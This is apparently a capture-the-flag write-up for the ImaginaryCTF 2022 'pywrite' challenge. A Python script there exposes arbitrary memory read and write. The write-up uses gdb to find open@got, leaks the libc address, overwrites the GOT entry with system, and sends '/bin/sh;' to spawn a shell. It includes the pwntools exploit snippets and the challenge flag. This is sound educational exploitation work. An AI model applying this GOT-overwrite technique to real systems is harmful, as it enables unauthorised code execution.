# ImaginaryCTF 2022 - pywrite

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [pywrite.zip](pywrite.zip)

There will be several files in zip:
- docker-compose.yml
- Dockerfile
- files/
- files/ld-2.31.so
- files/libc.so.6
- files/python3
- files/run.sh
- files/vuln.py
- xinetd

The original challenge doesn't have docker, just has 5 files in files folder. Because I run on parror, cannot run that python3, so I create a docker image with gdb-gef install to debug.

To build and run docker, type `docker-compose up --build`:



After it's done, type `docker ps` to get the container id:



Then type `docker exec -it <container-id-here> bash` to access to the container:



And now we can get started!

# 1. Find bug

Let's start by checking all the defences of `python3`:



So this is a 64-bit file with `No PIE` and `Partial RELRO`. We are also provided with a source file `vuln.py`. Open the file and we know there are 3 option:

```python
from ctypes import c_ulong

def read(where):
  return c_ulong.from_address(where).value

def write(what, where):
  c_ulong.from_address(where).value = what

menu = '''|| PYWRITE ||
1: read
2: write
> '''

while True:
  choice = int(input(menu))
  
  if choice == 1:
    where = int(input("where? ")) 
    print(read(where))
  if choice == 2:
    what = int(input("what? "))
    where = int(input("where? "))
    write(what, where)
  if choice == 3:
    what = input("what????? ")
    a = open(what)
    print(a)
```

The first option let us **read** data from an address. The second one let us **write** data to an address and the last option will **open** a file for us (just open, not read data of file so when it `print(a)` is just print the module of python, not data of file).

So that means we have arbitrary read and write. Let's move on!

# 2. Idea

We have arbitrary read and write, and the @got of python3 is `Partial RELRO` with `No PIE`, the idea is straight forward. We will first leak libc address of any @got and then overwrite @got with system and we can get shell.

Summary:
- Stage 1: Leak libc address
- Stage 2: Overwrite @got with system

# 3. Exploit

### Stage 1: Leak libc address

First, open 1 terminal and access to container, then run the file `run.sh` and let it there. Next, open another terminal and access to container too. Then type `ps aux` to get all process inside a container as following:



Then just type `gdb -p 17` and we can attach gdb to the running process. Now we need to find the address of binary `python3`. Type `vmmap`:



We can see the rw section is from `0x8f6000` to `0x93d000`. If we find manually, that might be time-consuming. Let's first get the libc address of read, write and open:



And now, we can use `search-pattern` in gdb-gef to search if those 3 address are in @got or not. This is result for `read`:



The result for write doesn't show any address of `python3` so we just ignore it, and this is the result for `open`:



There is an address which contain libc open. Let's make a test by setting all these value to an invalid value and continue executing script to see what function we should overwrite. I will change `read@got` into `0x4141414141414141` and `open@got` into `0x4343434343434343` and let's see:



Now type `c` and try all 3 option and if any option has no respond, switch to gdb to see what is happening. Option 1 seems no error:



Option 2 works fine too:



But we get no respond for option 3:



Switch to gdb and we can see it's going to jump to a function inside `0x8f6798`:



Check that address and we can see that's the address of `open@got`:



So we can leak address of open and overwrite `open@got` with system. The code for leaking address is:

```python
open_got = 0x8f6798
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'where? ', str(open_got).encode())

open_addr = int(p.recvline()[:-1])
libc.address = open_addr - libc.sym['open']
log.info(hex(libc.address))
```

Let's move on!

### Stage 2: Overwrite @got with system

Overwriting is simple:

```python
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'what? ', str(libc.sym['system']).encode())
p.sendlineafter(b'where? ', str(open_got).encode())
```

Also by analyzing when it segfault above, the register rdi contain our input:


So the file name when we choose option 3 would be `/bin/sh` and we can get shell:

```python
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'what?????', b'/bin/sh;')
```

Full script: [solve.py](solve.py)

# 4. Get flag


Flag is `ictf{sn3aky_snAk3s_1b99a1f0}`